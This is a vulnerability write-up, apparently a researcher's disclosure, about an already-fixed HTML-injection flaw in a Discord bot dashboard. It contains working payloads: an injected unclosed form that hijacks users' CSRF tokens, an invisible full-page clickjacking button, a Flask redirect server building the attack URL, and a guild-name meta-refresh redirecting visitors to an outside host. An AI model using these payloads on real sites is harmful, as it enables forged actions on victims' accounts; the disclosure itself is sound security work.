



<!-- P3 -->
## An unexpected error... with a magic trick
*Fixed on: 9/11/2026*

[Website](https://scrumpbot.com) | [Discord](https://scrumpbot.com/support)

It's a small multi-purpose bot that is used on some big servers. It has various functions just like other "kitchen sink" bots, but it tries to keep them simple and useful.



This app can be installed either on guilds or your account, from the dashboard you can configure and manage several things from the bot, like guild settings or your own profile data:



When I was looking at it, one of my servers had the name "`<h1>Arasuka"'`", and on the `/servers/` tab the name was being treated as part of the page (it was rendering the HTML verbatim):



On almost every part of the page this was being rendered like that, including the own server's leaderboard page. You may already be thinking of `<script>alert(1);</script>`, but the server says:

```http
HTTP/1.1 200 OK
Server: cloudflare
Vary: Cookie, Accept-Encoding
Content-Type: text/html; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: DENY
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: camera=(), microphone=(), geolocation=(), payment=(self)
Cross-Origin-Opener-Policy: same-origin
Content-Security-Policy: default-src 'self'; base-uri 'self'; object-src 'none'; frame-ancestors 'none'; form-action 'self' https://checkout.stripe.com; script-src 'self' 'nonce-ScQygCwfJvx0HA4KVPrMexyb'; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com; font-src 'self' data: https://fonts.gstatic.com; img-src 'self' data: https:; connect-src 'self' ws: wss:
```

That's a nice Content Security Policy and security headers that almost kills entirely XSS on this page, because you can't upload js or html files either. So this is just a plain HTML injection.

So I forget about this? Nah, not my case. I started to search other parts that were parsing HTML attributes raw, and I found that the site shows success/error messages by using the `?error=` and `?success=` query parameters, which were injectable too. Those messages get inserted like this in the HTML tree:

```html
<div class="site-toast-stack" aria-live="polite" aria-atomic="true">
    <div class="site-toast site-toast-success" role="status" data-toast>
        <i class="fa-solid fa-circle-check" aria-hidden="true"></i>
        <span>{{message}}</span>
        <button type="button" aria-label="Dismiss notification" data-toast-dismiss>
            <i class="fa-solid fa-xmark" aria-hidden="true"></i>
        </button>
    </div>
</div>
<div id="main-content" class="main-page-content-wrapper" tabindex="-1">
    <!-- ... [snip] -->
```

That's the very top of the main content. I noticed that in the main content there is another form with an input containing the CSRF token, so, what would happen if I inject a `<form method="POST" action="/something">` without the closing `</form>`?

The HTML parser will start to search for the closing `</form>` tag and everything that is between my newly opened form and the next `</form>` will be considered part of my new form. So, on this website the tree would now look like this:

```html
<div class="site-toast-stack" aria-live="polite" aria-atomic="true">
    <div class="site-toast site-toast-success" role="status" data-toast>
        <i class="fa-solid fa-circle-check" aria-hidden="true"></i>
        <span>
            <form method="POST" action="/something">
            </span>
            <button type="button" aria-label="Dismiss notification" data-toast-dismiss>
                <i class="fa-solid fa-xmark" aria-hidden="true"></i>
                </button>
                </div>
                </div>
                <div id="main-content" class="main-page-content-wrapper" tabindex="-1">
    <!-- ... [snip] -->
     <div class="dashboard-sidebar-actions">
        <form method="post" action="https://scrumpbot.com/auth/logout">
            <input type="hidden" name="csrf_token" value="ba9b44e5156e0f874ad891257545592e6cc357962d8e9531f0c37e6e58110be8">
            <button class="dashboard-sidebar-action" type="submit"><i class="fa-solid fa-arrow-right-from-bracket" aria-hidden="true"></i><span>Log out</span></button>
        </form>
```

This means that my new form will have appended the CSRF token of whoever views a crafted URL. Since it's a full HTML injection, we can inject elements to deface the page, which in my case, I'll use to hide elements like the header and the main content, show a simple error message: "An unexpected error occurred while rendering that page. Click here to try again." and make the submit form button maximized and invisible, so it covers the entire page. I can code a simple server that uses this to inject an invisible form which creates a Role Menu in a specific target guild:

```py
from flask import Flask, redirect

app = Flask(__name__)

TARGET_GUILD = "{{guild}}"
TARGET_CHANNEL = "{{channel}}"
TARGET_ROLE = "{{role}}"

@app.route("/redir")
def owo():
    return redirect(f"https://scrumpbot.com/dashboard/?view=internal_error&fingerprint=130c865ae8d491091666caa7ec73e7052da1da98705c7&error=An unexpected error occurred while rendering that page. Click here to try again.</div><form method%3d'POST' action%3d'/servers/{TARGET_GUILD}/role-menus'><input name='channel_id' value='{TARGET_CHANNEL}' hidden><input name='mode' value='standard' hidden><input name='title' value='fuck off' hidden><input name='description' value='uwu owo' hidden><input name='role_entries' value='%5B%7B%22role_id%22%3A%22{TARGET_ROLE}%22%2C%22label%22%3A%22xdxd%22%2C%22style%22%3A%22green%22%2C%22emoji_id%22%3Anull%2C%22required_role_id%22%3Anull%7D%5D' hidden><button type='submit' style='position:fixed;width:1000000px;height:1000000px;background-color:transparent;border-color:transparent;right:0px;top:-100px;z-index:10000000'>owo</button><style>.site-header,.site-navigation,.page-info,%23main-content%7bdisplay: none !important;%7d</style>")

app.run("127.0.0.1", 8000)
```

Now, to use a nice looking link from the own page, we can use the fact that the guild name is also rendered raw, and put a simple redirect as our guild name:

`Arasuka"</title><meta http-equiv="refresh" content="0;url=https://uwuowo.com/redir">`

> Yes, the site was also rendering raw the server name in the meta/SEO tags.

and use the server leaderboard link, which is just `https://scrumpbot.com/leaderboard/<leaderboard_id>`. So anybody who enters will just see an "unexpected error" page and when they try to click anything to refresh the page, it will trigger a signed `POST` request to whatever dashboard action I want:

https://github.com/user-attachments/assets/c36628dd-b0c0-4c3a-bf2b-79ef9233fd3b

You could also do a dangling markup attack against several pages using an anchor element or zero-click ` I also found a way to get partial XSS under this strict CSP using a Cloudflare quirk, which I won't post here because it wasn't actually useful.

The dev fixed it quickly. She said that an upstream dependency for some reason made input sanitation not-enabled by default, which given how many places were injectable, it really makes sense.